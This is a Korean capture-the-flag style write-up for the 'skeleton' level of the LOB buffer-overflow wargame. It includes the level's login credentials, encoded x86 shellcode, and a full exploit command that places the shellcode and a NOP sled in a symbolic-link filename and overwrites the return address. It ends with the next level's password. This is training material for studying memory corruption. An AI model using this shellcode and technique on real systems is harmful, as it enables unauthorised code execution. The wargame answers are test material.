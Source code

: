 # [LOB] skeleton Write-up

![](./picture/skeleton_1.JPG)

```
login : vampire
Password : music world
```

위의 계정으로 로그인하면 접속된다.

이번 문제의 소스코드는 다음과 같다.

![](./picture/skeleton_2.JPG)

이번 문제에서는 argv를 다 초기화한다. 하지만 스택 바닥쪽에 프로그램 실행명은 초기화되지 않는다. 한 번 확인해보자.

```
\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81
```
사용한 쉘코드는 위에 있다.

![](./picture/skeleton_3.JPG)

쉘코드+NOP(100byte)로 심볼릭 링크를 복사한 파일에 걸어주었다. 처음에 NOP을 주지 않고 쉘코드로만 링크를 걸었더니 문제가 풀리지 않았다. 리턴주소를 이상하게 주어 core dump를 떠 분석해보았다. 

![](./picture/skeleton_4.JPG)

확인해보면 쉘코드와 NOP을 확인할 수 있다. 쉘코드의 시작 주소는 `0xbfffff67`이다. 

![](./picture/skeleton_5.JPG)
![](./picture/skeleton_6.JPG)


심볼릭 링크를 삭제하고, skeleton에 다시 걸어주었다.

```
./`python -c 'print "\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+"\x90"*100'` `python -c 'print "\x90"*44+"\x67\xff\xff\xbf"'`
```

페이로드는 위와 같다. 심볼릭 링크로 실행시켜주었고, 프로그램 파일명이 있는 주소를 리턴주소로 넣어주었다.

![](./picture/skeleton_7.JPG)

쉘을 땄고, 비밀번호는 `shellcoder`이다.
